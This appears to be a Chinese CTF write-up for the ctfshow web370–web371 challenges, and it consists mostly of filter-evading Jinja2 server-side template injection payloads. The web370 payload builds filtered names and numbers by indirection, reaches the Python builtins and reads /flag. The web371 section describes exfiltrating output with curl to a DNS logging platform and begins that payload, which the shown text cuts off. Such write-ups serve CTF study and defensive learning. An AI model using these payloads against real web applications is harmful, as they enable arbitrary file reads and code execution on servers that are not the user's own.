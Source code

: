 ```python
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}

构造file='/flag'
{% set file=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}
```





### web370

这一题把数字也给过滤了,我们可以使用count过滤器，计算出字符串中的位数，得到数字

open函数和popen函数有区别，popen函数可以执行命令，open函数只是想指定文件读取内容，不能执行命令

```python
{% set num=dict(aaaaaaaaaaaaaaaaaaaaaaaa=x)|join|count %}  # 24
{% set f=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=x)|join|count %}  # f的ascii码
{% set l=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=x)|join|count %}
{% set aa=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=x)|join|count %}
{% set g=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=x)|join|count %}
{% set gang=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=x)|join|count %}
{% set xx=(()|select|string|list) %}
{% set po=dict(po=a,p=a)|join %}
{% set x=xx.pop(num) %}
{% set ini=x~x~(dict(ini=a,t=a)|join)~x~x %}
{% set glob=x~x~(dict(glo=a,bals=a)|join)~x~x %}
{% set geti=x~x~(dict(geti=a,tem=a)|join)~x~x %}
{% set buil=x~x~(dict(buil=a,tins=a)|join)~x~x %}
{% set c=((lipsum|attr(glob)|attr(geti))(buil)) %}
{% set chr=c.chr %}
{% set file=chr(gang)%2Bchr(f)%2Bchr(l)%2Bchr(aa)%2Bchr(g) %}
{% print(c.open(file).read())%}
```





### web371

这一题把`print`给过滤掉了，没办法回显，只能考虑使用`curl命令外带`了，我们可以将数据外带到dns平台上面

这里生成了 `0~9` 的数字，然后巧妙的使用 ~ 进行字符串拼接，然后使用 `int 过滤器`转化为整数

```python
{% set c=(t|count)%}  # 0
{% set cc=(dict(e=a)|join|count)%}
{% set ccc=(dict(ee=a)|join|count)%}
{% set cccc=(dict(eee=a)|join|count)%}
{% set ccccc=(dict(eeee=a)|join|count)%}
{% set cccccc=(dict(eeeee=a)|join|count)%}
{% set ccccccc=(dict(eeeeee=a)|join|count)%}
{% set cccccccc=(dict(eeeeeee=a)|join|count)%}
{% set ccccccccc=(dict(eeeeeeee=a)|join|count)%}
{% set cccccccccc=(dict(eeeeeeeee=a)|join|count)%}
{% set ccccccccccc=(dict(eeeeeeeeee=a)|join|count)%}
{% set cccccccccccc=(dict(eeeeeeeeeee=a)|join|count)%}  # 10
{% set coun=(ccc~ccccc)|int%}
{% set po=dict(po=a,p=a)|join%}
{% set a=(()|select|string|list)|attr(po)(coun)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
```